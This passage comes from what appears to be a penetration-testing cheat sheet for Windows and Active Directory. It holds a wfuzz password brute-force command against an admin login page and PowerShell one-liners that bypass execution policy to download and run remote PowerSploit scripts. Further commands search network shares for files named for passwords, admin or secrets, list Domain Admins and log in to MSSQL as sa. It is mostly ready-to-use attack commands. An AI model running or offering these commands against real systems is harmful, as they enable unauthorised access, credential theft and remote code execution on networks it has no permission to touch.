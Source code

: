 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
In case compiler is outdated:

<pre>nuget install Microsoft.Net.Compilers</pre>
  
   <b> Runas Powershell </b>
  
  ```Start-Process powershell.exe -Verb runas```
  ```Start-Process powershell.exe -Credential <user>```
  
  <b> View Shares With Permissions </b>
  
  <pre>powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');Invoke-ShareFinder -CheckShareAccess"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455620-34f292b4-ed83-11e7-92b0-3b8dd387146f.png)
  
  
  <b> View files that contain certain words recursively </b>
  
  <pre> ls -Path \\SVHOST1.LAZULI.CORP\tmp$ -Include "*pass*","*
admin*","*secret*" -Recurse -ErrorAction SilentlyContinue</pre>

![image](https://user-images.githubusercontent.com/7115563/34455641-aa03adf4-ed83-11e7-8333-a69366714921.png)

<b> View files which name contains certain words recursively </b>

<pre>dir -Path \\SVHOST1.LAZULI.CORP -Include "*pass*","*admin*","*secret*" -Recurse -ErrorAction SilentlyContinue</pre>

![image](https://user-images.githubusercontent.com/7115563/34455649-dcc941ea-ed83-11e7-9428-a702f254e807.png)

<b> Connect to MSSQL Database </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/michaellwest/PowerShell-Modules/master/CorpApps/Invoke-SqlCommand.ps1')

Invoke-SqlCommand -Server 172.11.14.89 -Database master -Username sa -Password <password> -Query "exec sp_databases" </pre>

<b> Port Scanning </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1')

Invoke-Portscan -Hosts [ip] -TopPorts 50</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455679-6e630230-ed84-11e7-995e-2eea1a6fc8dc.png)
  
  
  <b> View Domain Admins </b>
  
  <pre> net groups /domain "Domain Admins"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455690-9e648d78-ed84-11e7-9a84-9b335530a31e.png)
  
  <b> View Domain Controlers </b>
  
```